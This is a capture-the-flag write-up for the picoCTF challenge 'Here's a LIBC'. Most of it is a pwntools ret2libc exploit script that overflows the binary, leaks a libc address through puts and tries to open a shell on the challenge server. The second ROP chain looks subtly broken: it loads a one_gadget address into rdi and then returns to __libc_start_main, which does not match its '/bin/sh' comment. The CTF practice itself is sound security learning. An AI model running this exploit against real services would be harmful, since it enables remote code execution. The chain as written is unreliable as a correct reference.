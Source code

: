 # Here's a LIBC

Type/Tags : Binary Exploitation
Author : Madstacks

# Description
I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 23584

# Hints
PWNTools has a lot of useful features for getting offsets.

# Solution
Very standard ret2libc challenge with vuln being the vulnerable ELF executable and libc.so.6 being the version of libc used that is needed to exploit the challenge. You can learn about ret2libc challenges in a lot of places including LiveOverflow's videos on the topic, pwn.college, and here: https://research.801labs.org/stack-exploitation/

Final exploit script:

from pwn import *
p = remote('mercury.picoctf.net', 23584)
elf = ELF("./vuln")
libc = ELF("./libc.so.6")
rop = ROP(elf)

PUTS = elf.plt['puts']
MAIN = elf.symbols['main']
LIBC_START_MAIN = elf.symbols['__libc_start_main']

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(PUTS))
log.info("__libc_start_main: " + hex(LIBC_START_MAIN))
log.info("pop rdi gadget: " + hex(POP_RDI))

#create the first rop chain to leak libc address
JUNK = ("A"*136).encode()
rop = JUNK
rop += p64(POP_RDI)
rop += p64(LIBC_START_MAIN)
rop += p64(PUTS)
rop += p64(MAIN)

p.sendlineafter("sErVeR!", rop)

p.recvline()
p.recvline()

leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))


libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

#second rop chain to jump to /bin/sh
rop2 = JUNK
rop2 += p64(RET)
rop2 += p64(POP_RDI)
rop2 += p64(libc.address + 0x10a45c)

#found by using one_gadget /bin/sh
#0x4f365
#0x4f3c2
#0x10a45c
rop2 += p64(leak)
p.sendlineafter("sErVeR!", rop2)
p.interactive()

# Flag
